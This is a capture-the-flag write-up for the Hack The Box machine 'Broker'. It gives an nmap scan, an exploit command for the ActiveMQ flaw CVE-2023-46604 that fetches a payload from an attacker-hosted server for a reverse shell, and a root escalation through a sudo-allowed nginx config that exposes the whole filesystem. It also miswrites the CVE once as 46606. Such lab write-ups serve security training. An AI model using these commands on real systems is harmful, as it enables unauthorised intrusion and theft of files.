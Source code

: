 # Broker

## Info

Broker is an easy rated linux machine from hack the box.

## Nmap

All ports tcp scan.

```
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt       syn-ack ttl 63
5672/tcp  open  amqp?      syn-ack ttl 63
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
42683/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport

## User

Port 61616 is vulnerable to RCE due to unsafe deserialization within the OpenWire protocol. CVE-2023-46604.

Public exploit for CVE-2023-46606 (python).

```
https://github.com/evkl1d/CVE-2023-46604/tree/main
```

After starting a netcat listener and python webserver that can access the poc.xml, the following command is used.

```
python3 exploit.py -i 10.129.230.87 -p 61616 -u http://10.10.14.67/poc.xml
```

## Root

Trying sudo without a password shows the following command is allowed to run as root.

```
/usr/sbin/nginx
```

Creating the following config file allows the server to open 1337 and access the full file system.

```
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
server {
    listen 1337;
    root /;
    autoindex on;
}
}
```

Then run the command.

```
/usr/sbin/nginx -c /tmp/nginx.conf
```
Any file can be accessed on port 1337.
